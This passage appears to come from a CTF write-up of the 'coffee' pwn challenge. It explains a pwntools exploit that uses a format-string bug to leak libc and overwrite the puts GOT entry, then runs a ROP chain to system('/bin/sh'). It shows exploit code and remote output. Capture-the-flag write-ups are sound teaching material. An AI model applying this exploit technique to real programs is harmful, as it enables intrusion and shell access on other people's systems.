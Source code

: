> You can also leak libc address from the GOT using `%s`, see [dead-canary](https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2020/dead-canary#option-1a--option-1-using-s-to-leak-libc) for an example.  Out of habit I use the stack, however, from the GOT, it is consistent between libc versions.

The second part of the format string (`fmtstr_payload(offset+1,{binary.got.puts:pop_sled}, write_size='int', numbwritten=18)`) will overwrite the `puts` GOT entry with our pop sled.  The offset has to be incremented by one since we took up the first stack line with our leak; the `numbwritten=18` has to be set because our leak emitted 18 bytes.  Both are required or the math will be wrong.  I also went with `write_size='int'` to keep the format-string as small as possible.  This will emit a lot of bytes.

The last bit of the payload is a ROP back to `_start` for a second pass.  The `ret` from our pop sled will hit that and give us a fresh `_start`.

The rest of the above snippet just captures the 18 bytes and computes the address of libc.


```python
if args.REMOTE:
    null = payload.find(b'\x00')
    p.recvuntil(payload[null-2:null])
else:
    p.recvuntil(b'\n')
```

The above is not necessary, but necessary for pretty output for write ups.  Oddly this did not work the same locally as it did remotely (first time I'd see this).  All this code does is collect all the garbage from the format-string attack.


```python
payload  = b''
payload += fmtstr_len * b'A'
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

if any(x in payload for x in whitespace):
    log.critical('whitespace in payload! exiting! try again!')
    sys.exit(1)

p.sendline(payload)
p.interactive()
```

Second pass.  Standard fair ROP chain.  The padding (`fmtstr_len`) was computed from the format-string above.

The whitespace check will catch any whitespace (badchars if you prefer) and report:

```bash
[CRITICAL] whitespace in payload! exiting! try again!
```


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/tsgctf2021/coffee/coffee'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 34.146.101.4 on port 30002: Done
[*] '/pwd/datajerk/tsgctf2021/coffee/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
```